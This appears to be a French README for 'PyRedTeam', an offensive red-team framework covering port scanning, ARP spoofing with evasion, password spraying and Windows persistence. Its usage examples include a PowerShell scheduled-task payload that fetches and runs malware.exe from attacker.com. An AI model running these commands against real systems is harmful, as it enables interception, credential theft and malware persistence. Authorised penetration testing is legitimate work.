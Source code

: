 # 🛡️ PyRedTeam - Framework de Simulation d'Attaques


Framework complet pour les tests d'intrusion éthiques permettant d'exécuter des attaques simulées dans un environnement contrôlé et sécurisé.

## 🌟 Fonctionnalités Principales

- **🧩 Architecture Modulaire**  
  Ajoutez facilement de nouveaux modules d'attaque
- **🔒 Sécurité Renforcée**  
  Chiffrement AES-256 des rapports et validation des entrées
- **🌐 Mode Furtif**  
  Techniques d'évasion avancées (délais aléatoires, MAC variables)
- **📊 Journalisation Avancée**  
  Support ElasticSearch, fichiers locaux et console
- **🚀 API REST Sécurisée**  
  Gestion des attaques via HTTPS
- **🐳 Isolation Docker**  
  Environnement d'exécution sécurisé
- **📝 Rapports Personnalisables**  
  Formats JSON, YAML et HTML

## 📦 Installation

### Prérequis
- Docker
- Python 3.10+
- ElasticSearch (optionnel)

```bash
# Cloner le dépôt
git clone https://github.com/votre-utilisateur/PyRedTeam.git
cd PyRedTeam

# Construire l'image Docker
docker build -t pyredteam .

# Vérifier l'installation
docker run --rm pyredteam --list
```

## 🚀 Utilisation

### Interface en Ligne de Commande (CLI)

```bash
# Lister les modules disponibles
docker run pyredteam --list

# Exécuter un scan de ports (mode furtif)
docker run --net=host pyredteam \
  --run port_scan \
  --target 192.168.1.1 \
  --ports 22,80,443,8080-8090 \
  --covert \
  --output scan_results.json \
  --encrypt

# Exécuter un scan de ports
docker run --net=host pyredteam \
  --run port_scan \
  --target 192.168.1.1 \
  --ports 1-1024 \
  --output scan_results.json

# Exécuter un ARP Spoof
docker run --net=host pyredteam \
  --run arp_spoof \
  --target 192.168.1.10 \
  --gateway 192.168.1.1 \
  --interface eth0 \
  --covert \
  --output arp_report.json

# Exécuter un Password Spray
docker run pyredteam \
  --run password_spray \
  --url http://site.com/login \
  --params '{
    "usernames": ["admin", "user", "test"],
    "passwords": ["password123", "admin123", "Welcome1"],
    "user_agent": "Mozilla/5.0"
  }' \
  --output spray_results.json \
  --encrypt

# Exécuter un Scheduled Task
docker run pyredteam \
  --run scheduled_task \
  --params '{
    "task_name": "UpdateService",
    "command": "powershell -c \"Start-BitsTransfer -Source http://attacker.com/malware.exe -Destination C:\\malware.exe; Start-Process C:\\malware.exe\"",
    "trigger": "hourly"
  }' \
  --output task_report.yaml

# Démarrer l'API REST
docker run -p 5000:5000 pyredteam --api
```

### API REST

```
Endpoint                  Méthode                   Description
/attacks	              GET	                    Liste les modules disponibles
/attack/{module}	      POST	                    Exécute une attaque spécifique
/attack/{id}	          DELETE	                Arrête une attaque en cours
```

- **Exemple avec cURL**:
```bash
curl -k -X POST https://localhost:5000/attack/port_scan \
  -H "Content-Type: application/json" \
  -d '{"target_ip": "192.168.1.1", "ports": "1-1024"}'
```

## 🧠 Architecture Technique

### Structure des Modules

**Chaque module implémente l'interface standard:**

```bash
class Attack:
    def __init__(self):
        self.logger = Logger("NomModule")
    
    def setup(self, **kwargs):
        """Configuration initiale"""
        
    def execute(self):
        """Exécution de l'attaque"""
        return {"result": "data"}
        
    def cleanup(self):
        """Nettoyage des ressources"""
```

### Modules Inclus

1. **Port Scan (```network/port_scan.py```)**

- Scan TCP de ports

- Détection des services ouverts

2. **ARP Spoof (```network/arp_spoof.py```)**

- Empoisonnement ARP

- Mode furtif (timing aléatoire, MAC variables)

3. **Password Spray (```credential/password_spray.py```)**

- Attaque par pulvérisation de mots de passe

- Support multi-protocoles

4. **Scheduled Task (```persistence/scheduled_task.py```)**

- Création de tâches planifiées

- Persistance Windows

## Sécurité

- 🔑 Chiffrement AES-256 des rapports
- 🛡️ Validation stricte des entrées
- 🐋 Isolation via Docker
- 📜 Journalisation chiffrée
- 🔐 API avec HTTPS auto-signé

## Contribution

1. Forker le dépôt
2. Créer une branche (git checkout -b feature/nouveau-module)
3. Commiter les changements (git commit -am 'Ajout module X')
4. Pusher (git push origin feature/nouveau-module)
5. Créer une Pull Request

## Licence

MIT License - Voir [LICENSE](LICENSE)

